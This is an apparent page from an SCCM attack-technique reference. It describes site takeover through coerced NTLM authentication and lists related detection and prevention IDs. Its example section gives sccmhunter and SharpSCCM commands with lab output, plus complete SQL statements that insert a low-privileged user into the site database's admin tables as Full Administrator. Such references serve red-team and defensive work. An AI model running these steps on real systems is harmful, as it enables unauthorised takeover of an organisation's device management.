 ## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [PREVENT-14: Require EPA on AD CS and site databases](../../../defense-techniques/PREVENT/PREVENT-14/prevent-14_description.md)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description.md)

## Subtechniques
- TAKEOVER-1.1: Coerce primary site server
- TAKEOVER-1.2: Coerce SMS Provider
- TAKEOVER-1.3: Coerce passive site server

## Examples
The steps to execute TAKEOVER-1.1 through TAKEOVER-1.3 are the same except that a different system is targeted for coercion of NTLM authentication.

1. (Linux) Use `sccmhunter` to get the hex-formatted SID of the Active Directory user you'd like to grant the Full Administrator role in SCCM, as well as the MSSQL statements required to grant the role to the user:

    ```
    $ python3 sccmhunter.py mssql -dc-ip 192.168.57.100 -d MAYYHEM.LOCAL -u 'lowpriv' -p 'P@ssw0rd' -debug -tu lowpriv -sc ps1 -stacked
        
    [13:13:33] DEBUG    [+] Bind successful ldap://192.168.57.100:389 - cleartext                                        
    [13:13:33] INFO     [*] Resolving lowpriv SID...                                                                     
    [13:13:33] DEBUG    [+] Found lowpriv SID: S-1-5-21-622943703-4251214699-2177406285-1112                             
    [13:13:33] INFO     [*] Converted lowpriv SID to 0x010500000000000515000000D75D21256B6364FD4D95C88158040000          
    [13:13:33] DEBUG    [+] Found domain netbiosname: MAYYHEM                                                            
    [13:13:33] INFO     [*] Use the following to add lowpriv as a Site Server Admin.                                     

    USE CM_ps1; INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (0x010500000000000515000000D75D21256B6364FD4D95C88158040000,'MAYYHEM\lowpriv',0,0,'','','','','ps1');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'MAYYHEM\lowpriv'),'SMS0001R','SMS00ALL','29');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'MAYYHEM\lowpriv'),'SMS0001R','SMS00001','1'); INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'MAYYHEM\lowpriv'),'SMS0001R','SMS00004','1');
    ```

    (Windows) Use `SharpSCCM`to get the hex-formatted SID of the Active Directory user you'd like to grant the Full Administrator role in SCCM, and assemble the query based on the output from the example `sccmhunter` command above, substituting the user SID, domain, and site code (`ps1` in this example) where appropriate.

    ```
    > .\SharpSCCM.exe local user-sid

    [+] Current user: MAYYHEM\lowpriv
    [+] Active Directory SID for current user: S-1-5-21-622943703-4251214699-2177406285-1112
    [+] Active Directory SID (hex): 0x010500000000000515000000D75D21256B6364FD4D95C88158040000
    [+] Completed execution in 00:00:00.1959610
    ```
